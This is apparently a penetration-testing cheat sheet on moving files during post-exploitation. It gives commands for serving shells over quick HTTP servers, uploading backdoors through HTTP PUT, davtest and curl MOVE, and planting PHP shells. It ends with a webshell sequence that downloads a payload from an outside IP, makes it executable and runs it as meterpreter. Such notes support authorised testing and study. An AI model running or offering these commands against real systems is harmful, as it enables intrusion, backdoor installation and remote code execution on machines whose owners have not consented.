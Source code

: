 File Transfers
============================================================================================================

-   Post exploitation refers to the actions performed by an attacker,
    once some level of control has been gained on his target.

-   Simple Local Web Servers

    -   Run a basic http server, great for serving up shells etc  
        python -m SimpleHTTPServer 80

    -   Run a basic Python3 http server, great for serving up shells
        etc  
        python3 -m http.server

    -   Run a ruby webrick basic http server  
        ruby -rwebrick -e "WEBrick::HTTPServer.new  
        (:Port =&gt; 80, :DocumentRoot =&gt; Dir.pwd).start"

    -   Run a basic PHP http server  
        php -S $ip:80

-   Creating a wget VB Script on Windows:  
    [*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

-   Mounting File Shares

    -   Mount NFS share to /mnt/nfs  
        mount $ip:/vol/share /mnt/nfs

-   HTTP Put  
    nmap -p80 $ip --script http-put --script-args
    http-put.url='/test/sicpwn.php',http-put.file='/var/www/html/sicpwn.php

-   Uploading Files
    -------------------------------------------------------------------------------------------------------------

    -   SCP
    
        scp username1@source_host:directory1/filename1 username2@destination_host:directory2/filename2
        
        scp localfile username@$ip:~/Folder/

    -   Webdav with Davtest- Some sysadmins are kind enough to enable the PUT method - This tool will auto upload a backdoor
    
        `davtest -move -sendbd auto -url http://$ip`
      
        https://github.com/cldrn/davtest
        
        You can also upload a file using the PUT method with the curl command:
        
        `curl -T 'leetshellz.txt' 'http://$ip'`
        
        And rename it to an executable file using the MOVE method with the curl command:

        `curl -X MOVE --header 'Destination:http://$ip/leetshellz.php' 'http://$ip/leetshellz.txt'`

    -   Upload shell using limited php shell cmd  
        use the webshell to download and execute the meterpreter  
        \[curl -s --data "cmd=wget http://174.0.42.42:8000/dhn -O
        /tmp/evil" http://$ip/files/sh.php  
        \[curl -s --data "cmd=chmod 777 /tmp/evil"
        http://$ip/files/sh.php  
        curl -s --data "cmd=bash -c /tmp/evil" http://$ip/files/sh.php
